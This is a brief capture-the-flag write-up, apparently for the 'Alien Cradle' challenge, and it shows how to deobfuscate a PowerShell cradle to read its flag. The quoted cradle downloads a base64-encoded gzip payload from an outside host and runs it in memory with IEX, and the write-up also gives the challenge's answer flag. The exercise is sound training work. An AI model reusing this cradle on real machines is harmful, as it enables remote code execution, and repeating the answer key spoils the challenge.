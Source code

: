 #  Alien Cradle 

>In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

We have the following Powershell code:

__cradle.ps1__

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

## Solution

The flag is simply a concatenation in the code.
Simply remove the concatenation `' + '` and we have cleaned up the flag.

Flag: `HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}`
